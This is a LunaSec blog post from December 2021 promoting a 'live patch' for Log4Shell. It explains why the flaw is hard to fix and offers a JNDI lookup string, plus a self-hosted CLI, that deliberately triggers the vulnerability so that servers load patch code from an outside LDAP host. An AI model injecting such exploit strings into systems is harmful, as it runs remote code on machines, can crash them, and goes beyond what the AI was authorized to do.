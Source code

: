 ```yaml
---
title: "How to Automatically Mitigate Log4Shell with LunaSec Live Patch (CVE-2021-44228 + CVE-2021-45046)"
description: By simply sending a string to your servers, you can temporarily patch the Log4Shell vulnerability.
slug: log4shell-live-patch
date: 2021-12-14
image: https://www.lunasec.io/docs/img/log4shell-logo.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
authors:
- name: Free Wortley
  title: CEO at LunaSec
  url: https://github.com/freeqaz
  image_url: https://github.com/freeqaz.png
  tags: [zero-day, security, data-security, data-breaches, guides]
- name: Chris Thompson
  title: Developer at Lunasec
  url: https://github.com/breadchris
  image_url: https://github.com/breadchris.png
- name: Forrest Allison
  title: Developer at LunaSec
  url: https://github.com/factoidforrest
  image_url: https://github.com/factoidforrest.png

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

**TL;DR:** This string will temporarily fix your systems by patching them against Log4Shell, but *please* read the rest
of this post before you use it!

```
${jndi:ldap://patch.log4shell.com:1389/a}
```

## Why Log4Shell is an especially painful vulnerability

Mitigating a vulnerability in a single dependency used in one project is often difficult. Code must be written, tests must
pass, changes must be approved, it has to be deployed, and finally monitored. A vulnerability in a logging framework,
especially one as prolific as Log4j, is often not a single vulnerability, either. It's often not just a matter of updating
_your_ code, but also updating any of your dependencies that are _also using Log4j_.

## Living in Dependency Hell

Simply, one might ask, "Why not just update the dependency to the latest version?"

But updating all of your dependencies at once can be dangerous.

- What if you're several versions behind and the Log4j fix isn't ported to your version?
- What if changing that version causes your tests to not pass?
- What if you don't have tests to check correctness of the change... does that mean your app is suddenly broken?

These questions are what often keep organizations from updating their dependencies in the first place. A vulnerability
like Log4Shell forces you to not just patch the vulnerability in your code, but also deal with the (potentially years)
of tech debt that's attached to it.

## Down the rabbit hole...

But your vendors are also using Log4j. If your vendor software is a black box that runs locally on-prem or remotely in the cloud,
there is no way to simply "update" it to the latest version. You have no access to their source code or their dependencies.

You are left helpless until mitigation steps are given to you.

With this current Log4j fiasco, we've seen some vendors have
[recommended turning off their service](https://news.ycombinator.com/item?id=29562255)
until they have mitigated Log4Shell themselves.

Being left in the dark by a company you have paid to provide you a service isn't tolerable. Companies often depend deeply
on the vendor's software for their own business. It's simply not possible to just "wait" until it's patched.

## Stuck between worlds

All the while, while companies are panicked and struggling to hang on, attackers are getting more sophisticated with
their payloads. They are bypassing WAFs, the first line of defense, with
[increasingly sophisticated techniques](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words).

Not only that, they're also embedding themselves, discretely, into your infrastructure while you attempt to roll out
changes to fix issues.

The fallout from Log4Shell is going to take a _very_ long time to understand. We've
[barely even scratched the surface](https://arstechnica.com/information-technology/2021/12/as-log4shell-wreaks-havoc-payroll-service-reports-ransomware-attack/)
of what the real impact to society is going to be.

## A false sense of security

And, if you thought that was bad, I regret to inform you: That's not even the worst of the situation.

Even if you've managed to patch this, and your vendors have patched, it's still possible that
[another vulnerability is discovered](https://www.lunasec.io/docs/blog/log4j-zero-day-update-on-cve-2021-45046)
that undoes the mitigation work you've already put in place, resetting the cycle.

Log4Shell is a pernicious bugger, indeed!

## An unconventional silver lining

If you find yourself stuck between a rock and a hard place for fixing this issue at your company, you might find
yourself wishing for something better. Fortunately, the clever people of the internet have come up with a solution
that may help you remedy this painful situation.

By placing this string...

```
${jndi:ldap://patch.log4shell.com:1389/a}
```

...anywhere you can in your infrastructure that you're vulnerable to Log4Shell, you will be rolling out a temporary fix
that gives you more time to patch.

We run that server, but it's been built due to the work of [many](https://github.com/hillu/local-log4j-vuln-scanner/)
smart [people](https://github.com/corretto/hotpatch-for-apache-log4j2) working on and dealing with the fallout
from Log4Shell. We've just made it a little easier for you to use by hosting it for you.

:::warn There be dragons!
This string will attempt to exploit the Log4Shell vulnerability and apply a patch to your live system. While this
patch has been tested on a number of systems, your system might be different and could possibly crash. You have been warned.

If it doesn't work for some reason, _your server will hang and possibly need a manual restart._
:::

## Running the Patch Code yourself

Since LunaSec is an Open Source company, we pride ourselves in being transparent in the work that we do.

You can [run the patch server yourself](https://github.com/lunasec-io/lunasec/releases/) by downloading our `log4shell`
CLI tool. And, if you're curious, you can review the full source code of this live patch service on
[our repo](https://github.com/lunasec-io/lunasec/tree/master/tools/log4shell).

**We'll be publishing a technical deep dive into our patch tool tomorrow, so [stay tuned](#stay-updated) for that.**

```shell
➜  log4shell git:(hotpatch-improvements) ./log4shell livepatch
9:19AM INF Payload URL not provided. Using the default payload url.
        defaultPayloadUrl: http://localhost:8000/
9:19AM INF Starting Log4Shell live patch LDAP and payload servers
9:19AM INF Once both servers have started, use payload string: '${jndi:ldap://localhost:1389/a}' to hotpatch your servers.
9:19AM INF Started live patch payload server
        addr: 0.0.0.0:8000
9:19AM INF Started live patch server
        addr: 0.0.0.0:1389
```

_(If you find this tool helpful, consider giving us a star, please! ;))_

## How does it work?

This string will trigger the Log4Shell vulnerability and attempt to [exploit it](https://www.lunasec.io/docs/blog/log4j-zero-day/).
Instead of your server being taken over by an attacker though, your server will actually be patched against further
exploitation.

While unorthodox, this is a very effective way to mitigate Log4j vulnerabilities, especially for any software you have no
control over (like your vendors).

:::info
We're also offering a paid, commercial service that will perform the same mitigation work for you, but is managed by us.

Please see our Live Patching service for more information, or [schedule a time](https://lunasec.youcanbook.me) to talk
with us about it.
:::

## Moving Forward

We have extensively written about [steps for mitigating Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide),
and we encourage you to refer to these steps as you work to address this vulnerability. We strongly urge you and
your team to work towards updating your Log4j versions to `2.16.0` as you are able to (even if you've migrated to
`2.15.0` already).

If you do find yourself stuck in Dependency or Vendor hell though, you can always try to use the
[Live Patch](#an-unconventional-silver-lining)
or [contact us](https://www.lunasec.io/contact) about help you with a custom solution instead.

We're living in unusual times, and it's not crazy to try something new!

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

And if this post helped you, please share it with others to help them too.


<ContactForm/>

## Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-15-log4shell-live-patch.mdx).
:::

